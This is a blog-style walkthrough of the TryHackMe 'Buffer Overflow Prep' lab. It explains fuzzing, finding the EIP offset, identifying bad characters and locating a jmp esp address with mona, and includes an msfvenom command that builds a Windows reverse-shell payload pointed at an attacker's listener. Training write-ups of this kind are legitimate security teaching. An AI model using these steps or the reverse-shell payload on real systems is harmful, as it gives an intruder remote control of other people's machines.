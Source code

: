 ```yaml
---
title: BUFFER OVERFLOW PREP  
published: true
---
```

<br/>
# [](#header-1)BUFFER OVERFLOWS - Explained by an average IT guy
<br/>
<br/>
<br/>
![](images/Buffer-Overflow-Prep/BOP_Completion.png)
<br/>
When I first read a write-up of someone explaining how a buffer overflow worked, my brain melted and poured out of my ears. After doing some research, I am able to keep all of my brain matter intact and inside my cranium. In this write-up, I will walk through the first part of Tib3rius' 'Buffer overflow prep' room on Tryhackme (excellent room, thanks for making it!).
<br/>
<br/>
## oscp.exe OVERFLOW1
<br/>
<br/>
Right off the rip, the best resource that I found to explain in detail what the heck is going on when buffers are overflowed is the following blog post by 0xRick:
<br/>
<br/>
[Binary Exploitation - Buffer Overflow Explained in Detail](https://0xrick.github.io/binary-exploitation/bof1/)
<br/>
This explains in much better detail how a stack is structured and why buffer overflow's are a thing better than I ever could.
<br/>
Step one is to open immunity debugger:
<br/>
<br/>
![](images/Buffer-Overflow-Prep/1.png)
<br/>
<br/>
One additional plugin that will be used is mona. Mona.py is a (healthy 19,000+ line) python script that, when integrated with immunity, allows the user to use a variety of commands to search through the application that is being debugged. It is important to note that mona.py will ONLY work with python 2.7. To add the mona plugin to immunity debugger, download the following from Github:
```
https://raw.githubusercontent.com/corelan/mona/master/mona.py
```
<br/>
<br/>
and place that script in the 'PyCommands' folder in the immunity debugger application. Then set a working directory by entering the following command at the input field at the bottom of immunity:
```
!mona config -set workingfolder c:\mona\%p
```
<br/>
Now probably the most important part comes next, make sure you didn't already break something by testing that the vulnerable program is running properly:
<br/>
![](images/Buffer-Overflow-Prep/2.png)
<br/>
Great, the first step for exploiting a binary is fuzzing. Fuzzing is the process of sending malformed data in an automated fashion to a (hopefully) vulnerable application in an effort to see at what point it fails. Fuzzing is used to gather information regarding a target application. Sometimes, fuzzing can lead to accidental exploitation which is extra effecient. The fuzzing script that was written by Tib3rius is the following:
<br/>
<br/>
![](images/Buffer-Overflow-Prep/3.png)
<br/>
<br/>
So we have a fuzzing script, but what is it doing? Fuzzer.py attempts to manifest a connection with the machine running the binary and then for the first iteration of the while loop sends the prefix "OVERFLOW1" to specify which program we are trying to run. Then it attempts to pass 100 "A" characters to the binary and will continue to do so until it crashes. Knowing how many bytes the binary can handle before it crashes is what we are trying to learn. Running fuzzer.py shows us the following:
<br/>
![](images/Buffer-Overflow-Prep/4.png)
<br/>
So now we know that it takes 2000 bytes to crash the OVERFLOW1 binary, the next step is beginning to craft the exploit. The next script we have to create (when I say create what I really mean is copy and paste from Tib3rius' exploit.py script) is what will exploit the fact that this binary crashes after 2000 bytes.
<br/>
![](images/Buffer-Overflow-Prep/5.png)
<br/>
Awesome, we have some more python to take a look at. We see some familiar functionality from fuzzer.py, we connect to the machine and make sure we are running the OVERFLOW1 binary. We see that we send the "buffer" variable to the binary which is a combination of the prefix, offset, overflow, retn, padding, payload, and postfix variables. I'll do my best to explain what each of these are as we go in and edit them and develop the exploit script. The next step is to generate a value for the payload variable using the following metasploit framework ruby script:
<br/>
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l NUMBER
```
<br/>
Replacing 'NUMBER' with the amount of bytes (NOTE: it is recommended to add more bytes in incrememnts of 100 to this number just in case) it took to crash the binary will generate a long string of lowercase/uppercase characters, copy and paste the returned value into the payload variable of the exploit.py script:
<br/>
![](images/Buffer-Overflow-Prep/6.png)
<br/>
So instead of sending 2000 "A" characters we are now sending a pattern of unique characters.  We do this so we can search where exactly where crashes occur since we now have a pattern to search through instead of the same character over and over. Now we restart the program and run the exploit.py script with the updated payload. Now that we crashed the program, we use mona to search for more information:
<br/>
```
!mona findmsp -distance NUMBER
```
<br/>
Since I generated a pattern that was 2400 bytes long, my mona search will be 2400 for the distance option:
<br/>
![](images/Buffer-Overflow-Prep/7.png)
<br/>
The big takeaway from the above image that we are interested in is what mona was able to find when taking look at the registers. The two registers that are very important are the EIP register and ESP register. EIP is short for "Extended Instruction Pointer" it tells where in memory the computer should look for the next command. Our goal is to exploit this functionality and have EIP point some kind of instruction that was the result of us overflowing the buffer and writing our own special instructions into memory. ESP stands for "Extended Stack Pointer" and it points to the location of the stack at any time. Disclamer: I am not an expert at assembely/x86-architecture/linear data structures and do not have in depth knowledge of these topics, thus the explination of these registers are very high-level.
<br/>
<br/>
Thanks to mona, we know at what offset of the EIP register, we now go into our exploit.py and do 2 things. First, make the payload value a blank string. Then change the offset to whatever value mona was able to find (in this case it would be 1978). Great so in its current state our exploit.py should send 1978 "A" characters to the program.
<br/>
<br/>
![](images/Buffer-Overflow-Prep/8.png)
<br/>
 Now we are ready for the next step, finding bad characters.
<br>
The first step in finding which characters are bad and should be excluded from the payload is generating a byte array using mona. Bad characters are bad becuase they negatively affect the buffer in some way. A prime example of a bad character is "\x00" which is the hexidecimal encoded "null byte" character. When the binary is reading the string (in C/C++) that includes a null byte character, it will result in termination of the buffer at that point. This would result in only a portion of our payload actually being written in memory. We want to identify which characters cause behavior like this and remove them from our payload. The following mona command can be used to generate a byte array that will help us investigate for bad characters:
<br/>
```
!mona bytearray -b "\x00"
```
<br/>
This will create two files in your previously defined working directory called bytearray.bin and bytearray.txt. Next we run the following python to generate a string of characters that excludes the null byte by default:
<br/>
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
<br/>
We now change the value of our payload variable once again to the newly generated string of hex encoded character values. One additional change we have to make is editing the value of the retn variable. "retn" in this script stands for return address. We know that by sending 1978 "A" chars to the binary will get us to the offset of the EIP register but we still haven't overwritten the EIP register. The return address will be the value that we will use to overwrite EIP. We will change it to be a "BBBB"
<br/>
![](images/Buffer-Overflow-Prep/9.png)
<br/>
Awesome! Our exploit development is going well. Now we want to run the exploit against the binary again. After doing so we can see some interesting changes in immunity:
<br/>
![](images/Buffer-Overflow-Prep/10.png)
<br/>
There are two things to take note of. First at the bottom, we can see that it says we have an access violation when executing 42424242. This proves that the EIP register has been overwritten with four "B" characters as 42 is the unicode hex char code for B. The second is the address of the ESP register, in this case it is 017DFA30. We want to examine the ESP register as this is what comes directly after the EIP register and thus where all of our payload char values will be written to. To examine the ESP register, you can right click the address and select "follow in dump". You should see hexidecimal representation of the bytes that were used in the payload variable however some characters are missing. The first one that we can't seem to find is 07 and the next is 08. It's possible that these are bad chars, we can investigate further using the following mona command:
<br/>
```
!mona compare -f C:\mona\oscp\bytearray.bin -a 017DFA30
```
<br/>
<br/>
![](images/Buffer-Overflow-Prep/11.png)
<br/>
So we have 00 07 08 2e 2f a0 a1. We know that the null byte is for sure a bad character but what about the rest? Notice how a few of these chars seem to include the char that follows it? 07 is before 08, 2e is before 2f, and a0 is before a1. It is likely that 07, 2e, and a0 all are responsible for overwritting the character that would come next in the sequence. This is why 08, 2f, and a1 show up as bad chars in mona but might not be bad characters. From here we can start removing the listed characters from our exploit string, create a new byte array with the bad chars we find, and keep running the exploit and checking the ESP register's (Note that the address of the ESP register may change when running the exploit) status to see where it crashes. For the current example we can assume (correctly) that bad chars will be "\x00\x07\x2e\xa0". We would do this until we see the following using mona:
<br/>
![](images/Buffer-Overflow-Prep/12.png)
<br/>
<br/>
Awesome, we are free from any bad characters that could ruin our payload. Now it's time to find a jump point. Using the following mona command and our newly found list of bad chars:
<br/>
```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
<br/>
What this will do is find instructs in the binary that will perform "jmp esp" or something equivalent in addresses that do not contained the bad chars you state after -cpb. Select Window > Log Data to view what mona finds. Here are the results:
<br/>
![](images/Buffer-Overflow-Prep/13.png)
<br/>
Nice, now we can edit the exploit.py script and edit the "retn" variable to use an address that mona returned. I used the first one (625011af) for this example. Since the system is little endian, we need to make sure this value is interpreted correctly. This is why we must write the address in reverse order, the value of retn should be "\xaf\x11\x50\x62". If we wanted to test that the address is working we can make the payload a blank string, set a breakpoint at that address and see what happens after running the exploit. 
<br/>
![](images/Buffer-Overflow-Prep/14.png)
<br/>
<br/>
Now we are getting to the end of the process it is time to generate a payload. Using the following msfvenom commmand and your updated IP address will create a reverse shell payload.
<br/>
<br/>
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
<br/>
You could generate python code by replacing the c at the end of the command with py but the c code that is created is cleaner and is still valid. Great we have our payload, now one final modification we must make before we get a reverse shell is prepending nops to the payload. We need to do this if an encoder was used to create the payload. With the command above, the shikata_ga_nai encoder was used so we will need to prepend nops to the payload. This can be done by editing the value of the "padding" variable to be equal to "\x90" * 16. 
<br/>
![](images/Buffer-Overflow-Prep/16.png)
<br/>
Moment of truth, listen on the port specified in the payload and run the exploit!
<br/>
![](images/Buffer-Overflow-Prep/17.png)
<br/>
It worked! From fuzzing to a reverse shell, this would be the process for exploiting a simple stack buffer overflow. Thanks for reading!
